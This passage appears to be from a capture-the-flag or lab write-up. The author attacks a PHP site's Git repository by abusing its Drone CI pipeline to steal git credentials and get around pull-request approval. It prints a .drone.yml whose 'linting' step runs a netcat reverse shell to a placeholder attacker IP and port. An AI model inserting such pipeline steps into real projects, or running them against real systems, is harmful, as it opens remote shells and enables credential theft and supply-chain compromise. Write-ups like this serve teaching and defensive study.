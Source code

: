 Since the website is running PHP, if I could just push a PHP webshell to the `master` branch then I could execute code on the target website.

However, I could not directly push to the `master` branch and the pull requests have been configured to require an alternative approver to approve the changes... damn...

![](images/gitops_noweebshellsad.png)

However, the repository has **continuous integration** setup using Drone CI. Since the Drone CI instance needs to have access to the `git` repository it **needs to have `git` credentials that I could steal**! Using those `git` credentials I could self-approve the pull request and throw *software development lifecycle* practices out of the window!

Originally I popped a reverse shell by modifying the `.drone.yml` file to the one below.

**`.drone.yml`**
```yml
---
kind: pipeline
type: exec
name: default

platform:
  os: linux
  arch: amd64

steps:
  - name: linting
    commands:
      - rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR IP> <YOUR PORT> >/tmp/f
```
